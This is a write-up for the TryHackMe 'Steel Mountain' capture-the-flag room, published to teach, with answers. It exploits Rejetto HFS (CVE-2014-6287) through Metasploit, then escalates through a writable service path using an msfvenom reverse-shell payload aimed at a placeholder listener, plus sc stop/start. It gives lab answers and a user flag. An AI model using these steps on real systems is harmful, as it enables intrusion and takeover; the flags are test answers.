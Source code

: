![Steel Mountain Banner](https://i.imgur.com/Uo9F3uE.jpg)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/steelmountain/Steel_Mountain_Cover.png" alt="Steel Mountain Logo">
</p>

# Steel Mountain

This guide contains the answer and steps necessary to get to them for the [Steel Mountain](https://tryhackme.com/room/steelmountain) room.

## Table of contents

- [Introduction](#introduction)
- [Initial Access](#initial-access)
- [Privilege Escalation](#privilege-escalation)
- [Access and Escalation Without Metasploit](#access-and-escalation-without-metasploit)

### Introduction

1. Deploy the machine.Who is the employee of the month?

   When we input the machine ip into our browser, we are taken to a web page listing someone as employee of the month. We can open the image in a new tab and check the file name which contains the name of said employee.

   EMPLOYEE MONTH

   ><details><summary>Click for answer</summary>Bill Harper</details>

### Initial Access

1. Scan the machine with nmap. What is the other port running a web server on?

   Using nmap we can see the webpage we just visited on port 80 and another fileserver is listed in the results.

   ```console
   sudo nmap 10.10.175.6 -sS -sV -Pn -p-
   ```

   INITIAL NMAP

   ><details><summary>Click for answer</summary>8080</details>

2. Take a look at the other web server. What file server is running?

   Since we can't find the information needed from our nmap scan, we navigate to the server in our browser. Here we find information on the name of the file server as well as the brand in the url.

   INITIAL FILE SERVER

   ><details><summary>Click for answer</summary>Rejetto HTTP File Server</details>

3. What is the CVE number to exploit this file server?

   We can use `searchsploit` to look for any vulnerabilities. We are using version 2.3.

   INITIAL EXPLOITS

   Looks like there is a remote code execution vulnerability. On exploit-db we can see there has already been writen en Metasploit module for it.

   ><details><summary>Click for answer</summary>2014-6287</details>

4. Use Metasploit to get an initial shell. What is the user flag?

   Start Metasploit and look for the module related to the http file server exploit.

   ```console
   msfconsole
   search rejetto
   use 0
   ```

   INITIAL MODULE

   Now we must set all the necessary options like ip addresses and port numbers.

   INITIAL EXPLOIT

   After running the exploit we have received a meterpreter session. Dropping into the system using `shell` we get a shell on the system.

   Now we can navigate to bill's desktop and find our flag.

   INITIAL FLAG

   ><details><summary>Click for answer</summary>b04763b6fcf51fcd7c13abc7db4fd365</details>

### Privilege Escalation

1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities -"PowerUp aims to be a clearinghouse of common Windows privilege escalationvectors that rely on misconfigurations."You can download the script here. If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the `upload` command in Metasploit to upload the script. To execute this using Meterpreter, I will type `load powershell` into meterpreter. Then I will enter powershell by entering `powershell_shell`:

   I already have the file on my system, so I will upload it to the machine using `upload` then run Powershell en execute the script. It would also have been possible to do this from the regular shell we obtained to navigate to the users desktop.

   ESCALATE UPLOAD

   ESCALATE EXECUTE

2. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as anunquoted service pathvulnerability?

   We can se one program with the `canrestart` option set to true. 

   ESCALATE CAN RESTART

   ><details><summary>Click for answer</summary>AdvancedSystemCareService9</details>

3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! Use msfvenom to generate a reverse shell as an Windows executable. `msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe` Upload your binary and replace the legitimate one. Then restart the program to get a shell as root. Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

   

   ><details><summary>Click for answer</summary></details>

4. What is the root flag?



   ><details><summary>Click for answer</summary></details>

### Access and Escalation Without Metasploit

1. To begin we shall be using the sameCVE. However, this time let's use thisexploit.*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it fromGitHub!You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!



   ><details><summary>Click for answer</summary></details>

2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.Once
 we run winPeas, we see that it points us towards unquoted paths. We can
 see that it provides us with the name of the service it is also 
running.What powershell -c command could we run to manually find out the service name?*Format is "powershell -c "command here"*



   ><details><summary>Click for answer</summary></details>

3. Now let's escalate to Administrator with our new found knowledge.Generate your payload using msfvenom and pull it to the system using powershell.Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.First we need to stop the service which we can do like so;sc stop AdvancedSystemCareService9Shortly followed by;sc start AdvancedSystemCareService9Once this command runs, you will see you gain a shell as Administrator on our listener!



   ><details><summary>Click for answer</summary></details>

